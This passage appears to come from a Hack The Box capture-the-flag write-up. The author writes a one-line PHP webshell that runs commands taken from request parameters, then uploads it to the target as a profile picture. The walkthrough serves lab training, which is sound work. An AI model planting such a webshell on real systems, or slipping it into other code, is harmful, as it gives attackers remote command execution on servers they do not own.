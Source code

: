 ![](images/Pasted%20image%2020250720163340.png)

I create a simple PHP webshell.

```
fcoomans@kali:~/htb/environment$ echo -n '<?php system($_REQUEST["cmd"]); ?>' >webshell.php

fcoomans@kali:~/htb/environment$ cat webshell.php
<?php system($_REQUEST["cmd"]); ?>
```

And upload it as the profile picture.

![](images/Pasted%20image%2020250720163519.png)
